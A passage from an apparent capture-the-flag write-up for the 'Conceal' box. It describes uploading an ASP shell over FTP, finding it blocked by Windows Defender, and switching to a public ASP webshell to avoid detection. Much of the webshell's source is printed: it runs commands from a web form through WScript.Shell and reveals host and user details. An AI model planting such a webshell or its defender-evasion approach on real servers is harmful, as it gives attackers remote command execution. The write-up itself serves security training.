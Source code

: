 ![[Conceal-08.png]]

And upload shell.asp by FTP.

we will click shell.asp on this /upload folder. Be carefull to click fast since it will delete files automatically. But we will encounter a HTTP Error 404.3 - Not Found
 page when we click this file.

![[Conceal-09.png]]


when we search for `Error code 0x800700e1` on google we will know `Users receive the 0x800700E1 error code which says “Operation did not complete successfully because the file contains a virus or potentially unwanted software.” The most logical reason why you would get this error is that Windows Defender detected something suspicious.`

### Bypass windows defender
Ok, so let's do something to bypass windows defender detection.

What about a webshell? Download an asp webshell from [https://raw.githubusercontent.com/tennc/webshell/master/asp/webshell.asp](https://raw.githubusercontent.com/tennc/webshell/master/asp/webshell.asp) and upload again.

```asp
<!--
ASP Webshell
Working on latest IIS 
Referance :- 
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp
http://stackoverflow.com/questions/11501044/i-need-execute-a-command-line-in-a-visual-basic-script
http://www.w3schools.com/asp/
-->


<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>


<HTML>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
```